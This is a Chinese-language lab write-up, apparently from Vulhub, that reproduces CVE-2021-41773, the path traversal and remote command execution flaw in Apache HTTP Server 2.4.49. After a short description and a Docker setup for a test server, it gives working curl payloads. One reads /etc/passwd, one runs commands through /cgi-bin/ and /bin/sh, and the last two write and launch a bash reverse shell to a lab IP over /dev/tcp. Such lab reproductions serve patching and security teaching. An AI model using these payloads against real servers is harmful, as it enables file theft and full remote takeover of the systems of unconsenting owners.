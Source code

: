 # Apache HTTP Server 2.4.49 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。在其2.4.49版本中，引入了一个路径穿越漏洞，满足下面两个条件的Apache服务器将会受到影响：

- 版本等于2.4.49
- 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 环境搭建

Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTPd 2.4.49版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞复现

使用如下CURL命令来发送Payload（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> `-v`参数输出通信的整个过程，用于调试。

可见，成功读取到`/etc/passwd`：

![image-20220221183038882](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211830137.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![image-20220221183147331](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211831505.png)

写入反弹shell

```
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

执行反弹shell

```
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![image-20220221184049972](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211840056.png)

